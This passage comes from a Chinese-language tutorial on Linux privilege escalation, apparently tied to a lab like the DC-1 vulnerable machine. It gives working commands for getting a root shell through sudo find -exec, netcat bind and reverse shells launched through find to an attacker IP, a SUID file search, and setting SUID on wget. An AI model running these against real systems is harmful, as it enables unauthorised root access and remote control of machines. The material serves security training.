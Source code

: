 
## 9.2、docker组提权
[http://www.openskill.cn/article/21](http://www.openskill.cn/article/21)


# 十、实例

## 10.1、Find提权
**例一**<br />将SUDO权限分配给find命令，以便其他用户可以在系统中搜索特定的文件相关文件。尽管管理员可能不知道’find’命令包含用于执行命令的参数，但攻击者可以以root特权执行命令。

	拿到普通用户权限之后，使用`sudo –l`查看下， 查看当前是否存在当前用户可以调用sudo的命令，如下图，当前用户可以执行find命令，然后通过find命令获取root权限。
```
find ./ aaa -exec '/bin/sh' \;
```
![image.png](./assets/1671605997963-5a4c1aaa-0f58-44e4-b726-ea8d8b48236e.png)

应用链接：[DC-1](https://www.yuque.com/xmtxsec/network_security/vulnhub-dc-1)

**例二**<br />NC正向反弹<br />攻击机：
```
nc <-IP-> 9999
```

目标机：
```
touch dirty
find /xxx/xxx/dirty -exec nc -lvp 9999 -e /bin/sh \;
```
![](./assets/1671606907051-dca238a7-f30e-44e8-b45c-7c6305fa67e9.jpeg)

NC反向反弹<br />攻击机：
```
nc -lvp 8888
```

目标机：
```
touch dirty
find /xxx/xxx/dirty -exec nc <-IP-> 8888 -t -e /bin/sh \;
```
![image.png](./assets/1671607119407-c37eb602-9cc4-4a59-85f2-0c3afb695005.png)

**例三**<br />查找具有特殊权限SUID的文件
```
find / -perm -u=s -type f 2>/dev/null
```
如果find以SUID权限运行，所有通过find执行的命令都会以root权限运行<br />![](./assets/1671607262978-7833bd5f-df59-4094-9d42-f51e4adff8cd.jpeg)

通过find命令给wget命令提供SUID权限
```
find /home -exec chmod u+s /usr/bin/wget \;
```
![](./assets/1671607458035-f4f154ce-c2dc-46b6-88bd-a82bcae277b2.jpeg)

